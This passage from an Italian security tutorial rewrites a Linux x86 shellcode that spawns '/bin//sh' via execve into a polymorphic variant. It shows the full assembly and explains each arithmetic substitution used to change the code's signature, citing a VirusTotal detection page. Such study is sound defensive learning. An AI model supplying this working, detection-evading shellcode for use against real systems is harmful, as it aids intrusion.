 Quindi, ad esempio, l'istruzione ```push 0x68732f2f``` diventa:
{%highlight asm%}
mov eax, 0x11223344
add eax, 0x44332211
add eax, 0x11111111
add eax, 0x020cc8c9
push eax
{%endhighlight%}

Alla fine il valore del registro EAX sarà proprio 0x68732f2f.
Il mio shellcode in assembler diventa quindi:

{%highlight asm%}
; https://www.virustotal.com/gui/file/f1436a1ca76847e3425d9127a8829b0109bb8af7bf728352c3edfa886de93677/detection
global _start

section .text

_start:
; Executing shell
;
; int execve(const char *filename, char *const argv[], char *const envp[]);
; execve() is defined as #define __NR_execve 11 on /usr/include/i386-linux-gnu/asm/unistd_32.h

; first rewrite: we change the ecx and edx initialization to zero with push and
; pop right after eax is being set to 0

; second rewrite: we use MOV and SUB to set a register to 0, ECX in this case.
; Than we use MUL to multiply the value in EAX (we don't care which) storing 0 in
; both EAX and EDX

mov ecx, 0xdeadbeef
sub ecx, 0xdeadbeef

mul ecx

push eax	; The NULL byte

; third rewrite: we will use math to set the /bin/sh hex encoding into eax and
; then pushing eax into the stack. Please note that after this math, we will need
; to zero EAX again before setting it to 0xb

; push 0x68732f2f ; "sh//". The second '\' is used to align our command into the stack
mov eax, 0x11223344
add eax, 0x44332211
add eax, 0x11111111
add eax, 0x020cc8c9
push eax

; push 0x6e69622f ; "nib/"
mov eax, 0x1234abcd
add eax, 0x23232323
add eax, 0x12121212
add eax, 0x26FF812D
push eax

; now everything in the stack is setted up. We need to set EAX back to 0.
; Instead of using MUL ECX again, that it is a working method, I want to use math
; for that. I will start from a costant value, I will calculate its NOT and then
; I will put those two values in AND so to have 0 as final result.

mov eax, 0xdeadbeef
and eax, 0x21524110

mov ebx, esp	; EBX now points to "/bin//sh"

mov al, 0xB	; 11 in decimal
int 0x80

{%endhighlight%}

